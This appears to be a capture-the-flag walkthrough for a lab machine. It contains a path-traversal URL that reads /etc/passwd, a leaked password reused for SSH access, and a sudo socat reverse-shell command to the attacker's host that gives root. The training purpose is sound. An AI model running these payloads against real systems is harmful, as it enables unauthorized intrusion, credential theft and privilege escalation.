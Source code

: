```bash
export IP=10.10.2.219
```

# Nmap

Ports 22 and 80 are open

# Lfi

Lfi with 0-filtration
```
http://$IP/article?name=../../../../../etc/passwd
```

We have a string here:
```
#falconfeast:rootpassword
```

# SSH

```bash
ssh falconfeast@$IP
```

```bash
sudo -l
User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat
```

# Socat

That's an interesting part

### GTFOBins:
https://gtfobins.github.io/
Just to check what I can do with socat

My machine: 

```bash
socat file:`tty`,raw,echo=0 tcp-listen:12345
```

On falconfeast@$IP:

```bash
RHOST=<My IP>
RPORT=12345
sudo /usr/bin/socat tcp-connect:$RHOST:$RPORT exec:sh,pty,stderr,setsid,sigint,sane
```
Then I just went to /root and there was a file `root.txt`